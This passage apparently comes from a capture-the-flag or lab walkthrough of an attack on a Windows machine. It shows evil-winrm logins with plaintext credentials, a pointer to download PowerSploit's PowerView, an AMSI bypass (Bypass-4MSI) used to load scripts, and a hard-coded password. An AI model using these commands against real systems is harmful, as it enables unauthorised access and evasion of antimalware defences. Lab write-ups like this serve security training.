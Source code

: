 ![](20211107174202.png)



Loggin as jari

```bash

evil-winrm -i 127.0.0.1 -u jari -p 'Cos@Chung@!RPG'

```

download powerview.ps1 from https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

we can load script with evil-winrm

```bash

evil-winrm -i 127.0.0.1 -u jari -p 'Cos@Chung@!RPG' -s ps

Bypass-4MSI

PowerView.ps1

$pwd = ConvertTo-SecureString 'p@ssw0wrd12345' -AsPlaintext -Force


```
